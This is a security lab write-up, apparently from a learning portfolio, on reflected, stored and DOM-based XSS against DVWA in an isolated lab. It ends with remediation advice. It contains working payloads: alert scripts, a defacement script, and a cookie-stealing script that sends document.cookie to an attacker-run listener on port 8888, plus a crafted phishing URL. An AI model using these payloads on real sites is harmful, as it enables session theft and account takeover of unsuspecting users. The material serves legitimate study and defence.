



[Back to README](../../README.md)
 
# Cross-Site Scripting (XSS) — DVWA
 
## Objective
 
Test the DVWA web application for Cross-Site Scripting vulnerabilities across all three XSS types — Reflected, Stored, and DOM-based — progressing from basic alerts through to cookie theft and session hijacking.
 
## Environment
 
| Machine | OS | Role |
| --- | --- | --- |
| Kali Linux | Kali | Attack platform |
| Metasploitable 2 | Ubuntu Linux | Hosts DVWA web application |

**Target application:** Damn Vulnerable Web Application (DVWA)  
**DVWA security level:** Low  
**Network:** Isolated host-only network

## WHat is XSS?

**XSS targets other users' browser:** the attacker injects client-side code (usually JavaScript) that executes in the context of another user's session. The victim is whoever views the page containing the injected script.

It abuses the trust a user's browser places in the website. If a browser receives JavaScript from a site it trusts, it executes it - even if an attacker was the one to add it there.

## The Three Types of XSS

**Reflected XSS** — The malicious script is included in a URL or request parameter. When the server reflects that input back in the page without sanitising it, the script executes in the victim's browser. The payload is not stored anywhere — the victim must click a crafted link.

**Stored XSS** — The malicious script is saved on the server (in a database, comment field, guestbook, etc.). Every user who visits the affected page will have the script execute in their browser automatically. This is more dangerous than reflected XSS because the attacker doesn't need to trick each victim into clicking a link.

**DOM-based XSS** — The vulnerability exists entirely in client-side JavaScript. The page's own scripts read user input (from the URL, for example) and write it into the page without sanitisation. The server never sees the malicious input — everything happens in the browser.

## Reflected XSS

DVWA's Reflected XSS module provides a simple input field that asks for a name and reflects it back onto the page. The server-side code looks something like:

```php
echo 'Hello ' . $_GET['name'];
```

Whatever the user types gets placed directly into the HTML response with no filtering.

### Attack 1: Basic Proof of Concept

```html
<script>alert('You have been hacked by RaiyanRT')</script>
```

**What Happens:**

The input field expects a name like "Bob". Instead, we enter a script tag. Because the server places our input directly into the HTML without encoding it, the browser interprets it as real JavaScript and executes the alert.

The resulting HTML that the browser receives looks like:

```html
Hello <script>alert('You have been hacked by RaiyanRT')</script>
```

The browser doesn't know that this script came from user input - it just executes it.

**Result:**

> 📸 *Screenshot: Alert box appearing on the reflected XSS page after entering the script payload*


This confirms the input field is vulnerable to reflected XSS. The `alert()` is harmless, but it proves that arbitrary JavaScript can be executed.

### Attack 2: Cookie Theft via Reflected XSS

An alert box proves the vulnerability exists, but it doesn't demonstrate real-world impact. In practice, an attacker would steal the victim's session cookie and use it to hijack their account.

**Step 1: Start a listener on the attacker machine**

On the Kali machine, start a simple HTTP server to capture incoming requests:

```bash
python3 -m http.server 8888
```

This creates a web server on port 8888 that logs every request it receives, including any data appended to the URL.

**Step 2: Craft the cookie-stealing payload** 

```html
<script>new Image().src="http://<kali-ip>:8888/steal?cookie="+document.cookie;</script>
```

**What the Code Does:**

`new Image().src=` — Creates an invisible image element in the browser and sets its source to a URL we control. The browser makes a GET request to load the "image", sending whatever data we append to the URL.

`document.cookie` — A built-in JavaScript property that contains all cookies the browser has for the current site, including session tokens.

`"http://<kali-ip>:8888/steal?cookie="` — The URL of our listener. The victim's cookies get appended to this URL as a query parameter.

When a victim's browser executes this script, it silently sends their session cookie to the attacker's server. The victim sees nothing unusual.

**Step 3: Simulate the attack**

In a reflected XSS scenario, the attacker would craft a URL containing the payload and trick the victim into clicking it. The full URL would be:

```
http://<target-ip>/dvwa/vulnerabilities/xss_r/?name=<script>new Image().src="http://<kali-ip>:8888/steal?cookie="+document.cookie;</script>
```

In a real attack, this URL would be disguised using URL encoding or a link shortener and sent to the victim via email, messaging, or social media.

**Result:**



As you can see while the script was played, the site itself looked completely normal to the user besides the longer URL. It had no Indication that it's cookie was stolent. 



On the attackers side however, they have successfully intercepted the request and found the user's session cookie. 

Combined with some of the techniques from the [Broken Authentication writeup](../broken-authentication/Broken-auth-mutillidae.md), this cookie could be used to impersonate the victim without even knowing their password.

### Why Reflected XSS Requires Social Engineering

Unlike stored XSS, the payload is not saved on the server. The script only fires when someone visits the crafted URL. This means the attacker needs to convince the victim to click a link — through phishing emails, messages, or malicious advertisements. This makes reflected XSS less dangerous than stored XSS, but it is still heavily exploited in the real world because people click links.

## Stored XSS

DVWA's Stored XSS module provides a guestbook where users can leave a name and a message. Both fields are saved to the database and displayed to every visitor who views the guestbook page. The server-side code saves the input and later renders it like:

```php
echo $row['comment'];
echo $row['name'];
```

There is no sanitisation on input or output — whatever is submitted gets stored and then displayed as raw HTML.

### Attack 3: Stored Alert — Proof of Concept

**Name field:** `Attacker`  
**Message field:**

```html
<script>alert('You have been hacked!')</script>
```

**What Happens:**

The script is saved into the guestbook database. Now, every single user who visits the guestbook page will see the alert box pop up — not just the attacker, but any legitimate visitor. The payload persists until someone removes it from the database.

**Result:**

> 📸 *Screenshot: The guestbook submission form with the script entered in the message field*

> 📸 *Screenshot: The alert box appearing when revisiting the guestbook page*

### Attack 4: Persistent Cookie Theft

This is the same cookie-stealing technique from Attack 2, but now it's stored — meaning it fires automatically for every visitor without any social engineering required.

**Name field:** `Guest`  
**Message field:**

```html
<script>new Image().src="http://<kali-ip>:8888/steal?cookie="+document.cookie;</script>
```

**What Happens:**

The script is saved to the database. Every user who visits the guestbook — including administrators — will silently have their session cookie sent to the attacker's listener. The attacker doesn't need to send anyone a link. They just wait.

**Step 1:** Start the Python listener on Kali (same as Attack 2)  
**Step 2:** Submit the payload into the guestbook  
**Step 3:** Log in as a different DVWA user and visit the guestbook page  
**Step 4:** Check the listener — the second user's cookie should appear

**Result:**

> 📸 *Screenshot: The guestbook page displaying normally (the script is invisible because it renders as code, not text)*

> 📸 *Screenshot: The Kali listener showing multiple captured cookies from different users visiting the guestbook*

This is significantly more dangerous than reflected XSS. The attacker injects the payload once and it harvests cookies from every visitor indefinitely.

### Attack 5: Page Defacement

Cookie theft happens invisibly. To demonstrate a more visible impact, stored XSS can also be used to completely alter what a page looks like for other users.

**Name field:** `Admin`  
**Message field:**

```html
<script>document.body.innerHTML='<h1 style="color:red;text-align:center;margin-top:200px;">This site has been compromised.</h1>';</script>
```

**What Happens:**

`document.body.innerHTML=` replaces the entire page content with whatever HTML the attacker specifies. Every visitor to the guestbook will see the defacement message instead of the normal page.

In the real world, defacement is used by hacktivists to make a public statement, or by attackers to damage a company's reputation.

**Result:**

> 📸 *Screenshot: The guestbook page showing the defacement message instead of normal content*

## DOM-Based XSS

DVWA's DOM-based XSS module has a dropdown menu that lets the user select a language. The selection is passed in the URL as a fragment or parameter, and the page's own JavaScript reads this value and writes it into the page — all without the server being involved.

The vulnerable client-side code looks something like:

```javascript
document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
```

The `lang` value comes directly from the URL and is written into the page with `document.write()` without any sanitisation.

### Attack 6: DOM-Based Injection

**Payload (entered directly into the URL):**

```
http://<target-ip>/dvwa/vulnerabilities/xss_d/?default=<script>alert('DOM XSS')</script>
```

**What Happens:**

The page's JavaScript reads the `default` parameter from the URL, and passes it directly into `document.write()`. The browser executes the injected script.

The key difference from reflected XSS: the server never processes the malicious input. If you inspect the server's HTTP response, the payload won't appear anywhere in it. The vulnerability exists entirely in the client-side JavaScript that unsafely handles the URL parameter.

**Why This Matters:**

DOM-based XSS is harder to detect with traditional server-side security tools (like WAFs or server log analysis) because the malicious payload never touches the server. The attack happens entirely within the browser's JavaScript execution context.

**Result:**

> 📸 *Screenshot: The URL bar showing the injected payload in the default parameter*

> 📸 *Screenshot: The alert box triggered by the DOM-based XSS*

## Attack Summary

| # | Attack | XSS Type | Impact |
|---|--------|----------|--------|
| 1 | Alert proof of concept | Reflected | Confirms vulnerability exists |
| 2 | Cookie theft via crafted URL | Reflected | Session hijacking (requires victim to click link) |
| 3 | Stored alert in guestbook | Stored | Persistent script execution for all visitors |
| 4 | Persistent cookie harvesting | Stored | Automatic session theft from every visitor |
| 5 | Page defacement | Stored | Visible site compromise, reputation damage |
| 6 | DOM-based injection via URL | DOM-based | Client-side execution, invisible to server-side defences |

## Findings

* **Vulnerability:** Cross-Site Scripting (Reflected, Stored, and DOM-based)
* **Location:** DVWA XSS modules — name input field (reflected), guestbook form (stored), language selector URL parameter (DOM-based)
* **Severity:** High
* **OWASP Category:** A03:2021 – Injection

**Impact:**

* Session hijacking through stolen cookies, leading to full account takeover
* Persistent attacks that automatically target every visitor to an affected page
* Phishing and credential harvesting by injecting fake login forms into trusted pages
* Site defacement causing reputational damage
* Potential malware distribution by redirecting users to attacker-controlled sites
* DOM-based attacks that bypass server-side security controls entirely

## How XSS Leads to Account Takeover (Connecting the Attacks)

The cookie theft demonstrated in Attacks 2 and 4 connects directly to the session hijacking shown in the [Broken Authentication writeup](../broken-authentication/Broken-auth-mutillidae.md). The full attack chain looks like this:

1. Attacker injects a cookie-stealing script into the guestbook (Stored XSS)
2. A victim visits the guestbook — their session cookie is silently sent to the attacker
3. The attacker uses the stolen cookie to impersonate the victim (Session Hijacking)
4. If the victim is an administrator, the attacker now has admin access

This is how XSS, despite not directly touching the database, can lead to a full compromise. The XSS is the delivery mechanism; the session hijacking is the payload.

## Remediation

**1. Sanitise and encode all output**

Every piece of user-supplied data that is rendered in HTML must be encoded so that browsers treat it as text, not code. For example, `<` should become `&lt;` and `>` should become `&gt;`. In PHP:

```php
// Insecure — renders raw HTML
echo $userInput;

// Secure — encodes special characters so they display as text
echo htmlspecialchars($userInput, ENT_QUOTES, 'UTF-8');
```

This is the single most important fix. If applied consistently across all output points, it neutralises all three types of XSS.

**2. Validate and restrict input**

Where possible, restrict input to expected formats. A "name" field should reject input containing `<`, `>`, `"`, and `'`. A language selector should only accept values from a predefined whitelist. Input validation alone is not sufficient (output encoding is still required), but it adds a layer of defence.

**3. Implement Content Security Policy (CSP) headers**

A CSP header tells the browser which sources of JavaScript are allowed to execute. A strict CSP can prevent inline scripts from running entirely:

```
Content-Security-Policy: default-src 'self'; script-src 'self'
```

This means only scripts loaded from the site's own domain will execute. Injected inline scripts (like everything in this writeup) would be blocked by the browser, even if they make it into the HTML.

**4. Set the HttpOnly flag on session cookies**

```
Set-Cookie: PHPSESSID=abc123; HttpOnly; Secure
```

The `HttpOnly` flag prevents JavaScript from accessing the cookie via `document.cookie`. This means even if an XSS vulnerability exists and an attacker injects a cookie-stealing script, the browser will refuse to hand over the session cookie. This doesn't fix XSS — the script still executes — but it removes the most damaging outcome (session theft).

**5. Use frameworks that auto-escape output**

Modern frameworks like React, Angular, and Vue automatically escape output by default. Migrating away from raw PHP `echo` statements to a framework that handles encoding removes the burden from individual developers and significantly reduces the chance of XSS slipping through.

[Back to README](../../README.md)